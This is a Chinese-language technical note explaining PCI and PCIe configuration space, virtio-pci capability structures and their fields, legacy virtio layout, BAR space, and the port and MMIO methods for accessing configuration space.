* vendor id (0~1 byte)：生产厂商的 ID，例如Intel设备通常为0x8086，Red Hat设备通常为0x1af4
* device id (2~3 byte)：具体设备的 ID，通常也是由厂家自行指定的例如这里是0x1001
* command (4~5 byte)：控制pci设备，打开某些功能的开关，这里是（0x0507 = 0b1010111）
* status (6~7 byte)：记录pci设备的状态信息，这里是0x10（0b10000）
* revision id (8 byte)：PCI 设备的版本号，可以看作 Device ID 的扩展，这里是0x00
* class code (0x9~0xb byte)：类代码，用于区分设备类型，这里是0x10000
* header type (0xe byte)：pci设备类型，0x00（普通设备），0x01（pci bridge），0x02（CardBus bridge）。virtio是普通设备，这里是0x00

> [!tips]
>
> 
>
> 通过IDA中`xxx_class_init`函数查看指定设备的`vendor_id:device_id `，进一步通过`lspci`指令确定设备`总线编号:设备编号.功能编号`：
>
> ```bash
> / # lspci| grep "1234:5678"
> 00:04.0 Class 00ff: 1234:5678
> ```

其中，command的各字段含义如下：

 

低3位的含义如下：

* I/O Space：如果PCI设备实现了IO空间，该字段用来控制是否接收总线上对IO空间的访问。如果PCI设备没有IO空间，该字段不可写。
* Memory Space：如果PCI设备实现了内存空间，该字段用来控制是否接收总线上对内存空间的访问。如果PCI设备没有内存空间，该字段不可写。
* Bus Master：控制pci设备是否具有作为Master角色的权限。

status各字段含义如下图：


其中有一位是**Capabilities List**，它是PCI规范定义的附加空间标志位，Capabilities List的意义是**允许在PCI设备配置空间之后加上额外的寄存器**，这些寄存器由Capability List组织起来，用来实现特定的功能


### 扩展配置空间（Capability）（0x40\~0xFF bytes）

扩展配置空间即0x40~0xFF（最大不能超过256字节）这段配置空间，在这段空间主要存放一些与MSI或者MSI-X中断机制和电源管理相关的Capability结构。

此外virtio spec设计了自己的配置空间，用来实现virtio-pci的功能。pci通过**status字段的capabilities list bit**（status第4位）标记自己在64字节预定义配置空间之后有附加的寄存器组，**capabilities pointer**（配置空间第0x34字节）会存放寄存器组链表的头部指针（capabilities寄存器组在配置空间内的偏移）。

以virtio-blk为例，status = 0x10 = 0b10000标记了capabilities list bit位，capabilities pointer字段（偏移0x34处）存放了附加寄存器组的起始地址0x0098（capabilities在配置空间的偏移）。


PCI spec中描述的capabilities list格式如下：


1. capability ID (0 byte)：标识后面配置空间实现的是哪种capability
2. next (1 byte)：下一个capability的指针（偏移）。

以virtio-blk为例，实现的capability ID有两种：

* 一种是MSI-X（ Message Signaled Interrupts - Extension），ID为0x11
* 一种是Vendor Specific，**ID为0x9（VIRTIO_PCI_CAP_PCI_CFG）**

后面一种capability设计目的就是让厂商实现自己的功能。

> [!note]
>
> capability ID查阅参见pci spec3.0 附录H。


### virtio-pci的capabilty

#### virtio-pci的capabilty格式

在virtio morden的规范下，virtio的很多设备信息就是存放在多个virtio（ID为0x9）的capabilty中的，准确的说真正的信息不一定是在capabilty结构用，因为capabilty大小有限，如果信息较多，这些信息会存放在设备的BAR空间中，capabilty仅仅是存放这些信息在BAR空间的具体偏移。

根据virtio spec的规范，要实现virtio-pci的capabilty，其布局应该如下：

```c
/* This is the PCI capability header: */
struct virtio_pci_cap {
	uint8_t cap_vndr;		/* Generic PCI field: PCI_CAP_ID_VNDR */
	uint8_t cap_next;		/* Generic PCI field: next ptr. */
	uint8_t cap_len;		/* Generic PCI field: capability length */
	uint8_t cfg_type;		/* Identifies the structure. */
	uint8_t bar;		/* Where to find it. */
	uint8_t id;		/* Multiple capabilities of the same type */
	uint8_t padding[2];	/* Pad to full dword. */
	uint32_t offset;		/* Offset within bar. */
	uint32_t length;		/* Length of the structure, in bytes. */
};
```

* cap_vndr：固定值0x09，标识为virtio特有的capability ID；

* cap_next：指向下一个capability在PCI配置空间的指针（偏移）；

* cap_len：capability的具体长度，包含`virtio_pci_cap`结构；

* cfg_type：标识不同的virtio capability类型，具体有如下几个取值

  ```c
  /* Common configuration */
  #define VIRTIO_PCI_CAP_COMMON_CFG	1
  /* Notifications */
  #define VIRTIO_PCI_CAP_NOTIFY_CFG	2
  /* ISR access */
  #define VIRTIO_PCI_CAP_ISR_CFG		3
  /* Device specific configuration */
  #define VIRTIO_PCI_CAP_DEVICE_CFG	4
  /* PCI configuration access */
  #define VIRTIO_PCI_CAP_PCI_CFG		5
  /* Additional shared memory capability */
  #define VIRTIO_PCI_CAP_SHARED_MEMORY_CFG 8
  ```

*  bar：取值0~5，对应PCI配置空间中的6个BAR寄存器，表示这个capability是位于哪个BAR空间的，当然这个BAR空间可以是个IO BAR也可以是个memory BAR；

* id：同一类型的capability可以有多个实例或多个版本，该字段为每个同类型的capability分配一个唯一的标识符（可能会按某种顺序排列）。

  > 例如，有些实现中使用IO访问要比memory访问效率更高，则会提供两个相同的capability，一个位于IO BAR，另一个位于memory BAR，如果IO BAR可用则使用IO BAR的资源，否则fallback到memory BAR；
  >
  > 例如，一个设备可能支持多个网络接口能力；
  >
  > 例如，设备可能实现了某个能力的多个版本，`id` 字段可以用来区分它们的不同版本

* offset：表示这个capability在对应BAR空间的offset；

* length：表示这个capability的结构长度；

#### virtio-pci morden的capabilty类型


##### **Common configuration**

virtio设备的通用配置，对应的capabilty type为VIRTIO_PCI_CAP_COMMON_CFG(1)，其在DPDK中定义如下：

```c
/* Fields in VIRTIO_PCI_CAP_COMMON_CFG: */
struct virtio_pci_common_cfg {
	/* About the whole device. */
	uint32_t device_feature_select;	/* read-write */
	uint32_t device_feature;		/* read-only */
	uint32_t guest_feature_select;	/* read-write */
	uint32_t guest_feature;		/* read-write */
	uint16_t msix_config;		/* read-write */
	uint16_t num_queues;		/* read-only */
	uint8_t device_status;		/* read-write */
	uint8_t config_generation;		/* read-only */

	/* About a specific virtqueue. */
	uint16_t queue_select;		/* read-write */
	uint16_t queue_size;		/* read-write, power of 2. */
	uint16_t queue_msix_vector;	/* read-write */
	uint16_t queue_enable;		/* read-write */
	uint16_t queue_notify_off;	/* read-only */
	uint32_t queue_desc_lo;		/* read-write */
	uint32_t queue_desc_hi;		/* read-write */
	uint32_t queue_avail_lo;		/* read-write */
	uint32_t queue_avail_hi;		/* read-write */
	uint32_t queue_used_lo;		/* read-write */
	uint32_t queue_used_hi;		/* read-write */
};
```

这个结构前半部分描述的是设备的全局信息，后半部分描述的具体队列的信息。

1. `device_feature_select` (读写)
   * 作用：选择要查询或修改的设备特性（features）位掩码。设备特性是设备支持的功能集合，Virtio 协议允许主机和客户机通过这些特性进行交互。
   * 说明：写入此字段时，选择一个特性索引；通过读取此字段，得到设备的特性。
2. `device_feature` (只读)
   * 作用：包含设备当前支持的特性。该字段包含主机选择的设备特性位掩码。
   * 说明：该字段是只读的，主机通过此字段了解设备支持哪些特性。
3. `guest_feature_select` (读写)
   * 作用：选择要查询或修改的客户机特性位掩码。客户机特性表示客户机端支持的功能集合。
   * 说明：通过写入此字段，选择一个特性索引；通过读取此字段，了解客户机支持哪些特性。
4. `guest_feature` (读写)
   * 作用：包含客户机支持的特性。该字段表示客户机的特性位掩码。
   * 说明：通过该字段，设备（或主机）可以看到客户机所支持的功能。
5. `msix_config` (读写)
   * 作用：配置设备的 MSI-X（Message Signaled Interrupts）设置。MSI-X 是用于高效中断处理的机制，它允许设备通过消息而不是传统的中断请求（IRQ）来通知主机。
   * 说明：这个字段允许设备和主机配置与 MSI-X 相关的参数。
6. `num_queues` (只读)
   * 作用：表示设备支持的虚拟队列的数量。虚拟队列（virtqueue）是 Virtio 设备与主机之间传输数据的通道。
   * 说明：该字段只读，主机可以通过它了解设备支持多少个虚拟队列
7. `device_status` (读写)
   * 作用：表示设备当前的状态。该字段的值控制设备的启用、配置和故障状态。
   * 说明：可以通过读写此字段来管理设备的状态。比如，设备的启动、配置和关闭都通过此字段来操作。
8. `config_generation` (只读)
   * 作用：配置生成的版本号。每当配置发生更改时，生成的版本号都会增加。
   * 说明：此字段用于跟踪配置的更改，确保主机和设备之间的配置一致性。

关于虚拟队列的字段：

这些字段提供了关于特定虚拟队列的配置信息：

9. `queue_select` (读写)
   * 作用：选择当前操作的虚拟队列。通过设置此字段，主机可以指定要操作的虚拟队列索引。
   * 说明：该字段的设置决定了接下来的队列相关操作（如队列大小、启用等）将针对哪个虚拟队列进行。
10. `queue_size` (读写，2 的幂)
    * 作用：设置虚拟队列的大小，通常是 2 的幂。虚拟队列的大小决定了队列中最多可以容纳多少个描述符。
    * 说明：队列大小越大，性能越好，但同时占用的内存也越多。
11. `queue_msix_vector` (读写)
    * 作用：为虚拟队列配置 MSI-X 向量。此字段用于指定虚拟队列使用的 MSI-X 中断向量，用于处理中断通知。
    * 说明：设备可以通过此字段将每个队列与一个 MSI-X 向量关联。
12. `queue_enable` (读写)
    * 作用：启用或禁用虚拟队列。设置为 1 时，启用队列；设置为 0 时，禁用队列。
    * 说明：通过该字段，主机可以控制虚拟队列的启用或禁用。
13. `queue_notify_off` (只读)
    * 作用：虚拟队列的通知偏移量。该字段指示虚拟队列的通知指针偏移量，通常与队列的通知机制相关。
    * 说明：当设备或客户机需要通知对方时，使用此字段来指定偏移量。
14. `queue_desc_lo` (读写)
    * 作用：虚拟队列描述符（descriptor）的低地址部分。描述符是指向缓冲区的指针，存储了数据传输所需的详细信息。
    * 说明：这个字段是队列描述符的低 32 位地址。
15. `queue_desc_hi` (读写)
    * 作用：虚拟队列描述符的高地址部分。与 `queue_desc_lo` 配合使用，形成描述符的完整地址。
    * 说明：这个字段是队列描述符的高 32 位地址。
16. `queue_avail_lo` (读写)
    * 作用：虚拟队列的可用环（available ring）的低地址部分。可用环存储了主机可以提交的数据项。
    * 说明：该字段表示虚拟队列的可用环的低 32 位地址。
17. `queue_avail_hi` (读写)
    * 作用：虚拟队列的可用环的高地址部分。与 `queue_avail_lo` 配合使用，形成可用环的完整地址。
    * 说明：该字段表示虚拟队列的可用环的高 32 位地址。
18. `queue_used_lo` (读写)
    * 作用：虚拟队列的已用环（used ring）的低地址部分。已用环存储了设备已经处理的数据项。
    * 说明：该字段表示虚拟队列的已用环的低 32 位地址。
19. `queue_used_hi` (读写)
    * 作用：虚拟队列的已用环的高地址部分。与 `queue_used_lo` 配合使用，形成已用环的完整地址。
    * 说明：该字段表示虚拟队列的已用环的高 32 位地址。


##### Notification configuration

对应的capabilty type为VIRTIO_PCI_CAP_NOTIFY_CFG(2)，其在DPDK中定义如下：

```c
struct virtio_pci_notify_cap {
	struct virtio_pci_cap cap;
	uint32_t notify_off_multiplier;	/* Multiplier for queue_notify_off. */
};
```

这个配置主要用来描述通知后端队列的地址（notify的地址），参考[virtqueue_setup](https://elixir.bootlin.com/qemu/v8.0.0-rc2/source/tests/qtest/libqos/virtio-pci-modern.c#L228)，`notify_offset`的具体地址计算方式如下：

```c
cap.offset + queue_notify_off * notify_off_multiplier
```

* `cap.offset`为指向对应BAR空间的offset
* `queue_notify_off`从`virtio_pci_common_cfg`获取，为通知后端队列的起始指针（相对于对应BAR的偏移），通常是队列大小的一个倍数。
* `notify_off_multiplier`为`queue_notify_off`的乘数，作用是灵活地调整notify的地址。如队列的大小发生变化，或者需要不同的偏移量来访问通知队列中的特定位置。

> 在legacy设备中，所有队列共享一个notify寄存器，驱动向寄存器中写入不同的地址来通知后端收取不同队列的数据。这样在大流量情况下多队列notify会产生瓶颈；
>
> 在morden设备中可以采用不同队列不同地址的方式减少notify争抢提升性能。

此外如果设备支持VIRTIO_F_NOTIFICATION_DATA，即notify时携带数据，则每个队列的notify地址需要额外的4字节，即`cap.length >= queue_notify_off * notify_off_multiplier + 4`，否则，每个队列的notify需要至少2字节，即`cap.length >= queue_notify_off * notify_off_multiplier + 2`。

> [!warning]
>
> 这里其实我没太搞懂，后面再补充吧。


##### ISR status

对应的capabilty type为VIRTIO_PCI_CAP_ISR_CFG(3)，ISR status这个capabilty就是原有的`struct virtio_pci_cap cap`结构，主要用于产生INT#x中断，其指向的内容至少一个字节，即`mem_resource[cap.bar].addr + cap.offset`指向至少一个字节长度。并且这个字节只有两个bit有效，其他作为保留。如下，0 bit表示队列事件通知，1 bit表示设备配置变化通知:

 

 如果设备不支持MSI-X capability的话，在设备配置变化或者需要进行队列kick通知时，就需要用到ISR capability。


##### Device-specific configuration

对应的capabilty type为VIRTIO_PCI_CAP_DEVICE_CFG(4)，用来存储设备特有的配置信息，如virtio-blk的配置信息如下：

```c {hide=true}
struct virtio_blk_config {
	/* The capacity (in 512-byte sectors). */
	__virtio64 capacity;
	/* The maximum segment size (if VIRTIO_BLK_F_SIZE_MAX) */
	__virtio32 size_max;
	/* The maximum number of segments (if VIRTIO_BLK_F_SEG_MAX) */
	__virtio32 seg_max;
	/* geometry of the device (if VIRTIO_BLK_F_GEOMETRY) */
	struct virtio_blk_geometry {
		__virtio16 cylinders;
		uint8_t heads;
		uint8_t sectors;
	} geometry;

	/* block size of device (if VIRTIO_BLK_F_BLK_SIZE) */
	__virtio32 blk_size;

	/* the next 4 entries are guarded by VIRTIO_BLK_F_TOPOLOGY  */
	/* exponent for physical block per logical block. */
	uint8_t physical_block_exp;
	/* alignment offset in logical blocks. */
	uint8_t alignment_offset;
	/* minimum I/O size without performance penalty in logical blocks. */
	__virtio16 min_io_size;
	/* optimal sustained I/O size in logical blocks. */
	__virtio32 opt_io_size;

	/* writeback mode (if VIRTIO_BLK_F_CONFIG_WCE) */
	uint8_t wce;
	uint8_t unused;

	/* number of vqs, only available when VIRTIO_BLK_F_MQ is set */
	__virtio16 num_queues;

	/* the next 3 entries are guarded by VIRTIO_BLK_F_DISCARD */
	/*
	 * The maximum discard sectors (in 512-byte sectors) for
	 * one segment.
	 */
	__virtio32 max_discard_sectors;
	/*
	 * The maximum number of discard segments in a
	 * discard command.
	 */
	__virtio32 max_discard_seg;
	/* Discard commands must be aligned to this number of sectors. */
	__virtio32 discard_sector_alignment;

	/* the next 3 entries are guarded by VIRTIO_BLK_F_WRITE_ZEROES */
	/*
	 * The maximum number of write zeroes sectors (in 512-byte sectors) in
	 * one segment.
	 */
	__virtio32 max_write_zeroes_sectors;
	/*
	 * The maximum number of segments in a write zeroes
	 * command.
	 */
	__virtio32 max_write_zeroes_seg;
	/*
	 * Set if a VIRTIO_BLK_T_WRITE_ZEROES request may result in the
	 * deallocation of one or more of the sectors.
	 */
	uint8_t write_zeroes_may_unmap;

	uint8_t unused1[3];

	/* the next 3 entries are guarded by VIRTIO_BLK_F_SECURE_ERASE */
	/*
	 * The maximum secure erase sectors (in 512-byte sectors) for
	 * one segment.
	 */
	__virtio32 max_secure_erase_sectors;
	/*
	 * The maximum number of secure erase segments in a
	 * secure erase command.
	 */
	__virtio32 max_secure_erase_seg;
	/* Secure erase commands must be aligned to this number of sectors. */
	__virtio32 secure_erase_sector_alignment;

} QEMU_PACKED;
```


##### PCI configuration access

对应的capabilty type为VIRTIO_PCI_CAP_PCI_CFG(5)，是一种特殊的capability，它是为了提供给驱动另一种访问pci配置的方法，定义如下：

```c
/* Fields in VIRTIO_PCI_CAP_PCI_CFG: */
struct virtio_pci_cfg_cap {
	struct virtio_pci_cap cap;
	uint8_t pci_cfg_data[4]; /* Data for BAR access. */
};
```

驱动可以通过配置`cap.bar, cap.length, cap.offset`和`pci_cfg_data`来读写对应PCI BAR中的指定offset以及指定length的内容。


#### virtio-pci legacy的配置信息（了解即可）

以上我们介绍的capability都是morden设备才有的，而legacy（virtio 0.95）是没有这些capability的。

> Transitional devices MUST present part of configuration registers in a legacy configuration structure in BAR0 in the first I/O region of the PCI device.

legacy的这些配置信息都是存放在PCI设备的第一个IO BAR0的。

> 不过这里其实有点分歧，这些配置是需要存放在BAR0，但是BAR0必须要是I/O BAR吗？不能说memory BAR吗？
>
> 其实是可以的，只是早期一些驱动（比如DPDK 21.05之前）就默认legacy设备的第一个BAR是I/O BAR，但是其实当前很多智能网卡（DPU）通过硬件模拟virtio设备，所有设备都是在一个PCIe树上，pio资源是有限的，所以一般都采用memory BAR实现，所以后续DPDK也对此进行了修改，详情见[patch](https://lore.kernel.org/dpdk-dev/b34311c7-5b09-a1f6-1957-c9e19bb2a273@intel.com/T/)。

Lagecy virtio设备的common configuration在PCIe BAR0上的layout如下图所示：

 

> 这里有个需要注意的地方，就是设备队列的地址（queue address）是32位的，而在morden设备capability中的common configuration的 queue address是64位，寻址方式会有所不同。

此外legacy也可选支持MSI-X，layout如下，紧接在（如果存在）common configuration之后：

 


再之后是一些device-specific configuration。

### PCIe扩展配置空间（0x100\~0xFFF bytes）

PCIe规范在PCI规范的基础上，将配置空间扩展到4KB，即0x100~0xFFF这段配置空间是PCIe设备特有的。PCIe扩展配置空间中用于存放PCIe设备独有的一些Capability结构，而PCI设备不能使用这段空间。不过目前virtio设备也没有使用这段空间。

## PCI BAR空间

PCI配置空间和内存空间是分离的，PCI内存空间根据不同设备实现不同其大小和个数也不同，这些PCI设备的内部存储空间我们称之为BAR（Base Address Registers）空间，因为它的基地址存放在配置空间的BAR寄存器中。

设备出厂时，这些空间的大小和属性都s写在Configuration BAR寄存器里面，然后上电后，系统软件读取这些BAR，分别为其分配对应的系统内存空间，并把相应的内存基地址写回到BAR。

> BAR的地址其实是PCI总线域的地址，CPU访问的是存储器域的地址，CPU访问PCIe设备时，需要把总线域地址转换成存储器域的地址。

下图所示为配置空间和BAR空间的关系：


以virtio-net morden设备为例，看下PCI配置空间和BAR空间的关系：


## PCI/PCIe配置空间的访问方式

X86处理器通过定义两个IO端口寄存器，分别为`CONFIG_ADDRESS`和`CONFIG_DATA`寄存器，其地址分别为0xCF8和0xCFC。通过在`CONFIG_ADDRESS`端口填入PCI设备的BDF和要访问设备寄存器编号，在`CONFIG_DATA`上写入或者读出PCI配置空间的内容来实现对配置空间的访问。

PCIe规范在PCI规范的基础上，将配置空间扩展到4KB。原来的CF8/CFC方法仍然可以访问所有PCIe设备配置空间的0\~0xff字节，但是该方法访问不了（0x100\~0xfff）配置空间。

Intel提供了另外一种PCIe配置空间访问方法：通过将配置空间映射到Memory map IO（MMIO）空间，对PCIe配置空间可以像对内存一样进行读写访问了：

 

因此对PCI/PCIe配置空间的访问方式有两种：

1. 传统方式，写IO端口0xCFCh和0xCF8h。只能访问前0x100 bytes的配置空间；
2. PCIe的方式，通过mmio映射，它可以访问前0x1000 bytes的配置空间。


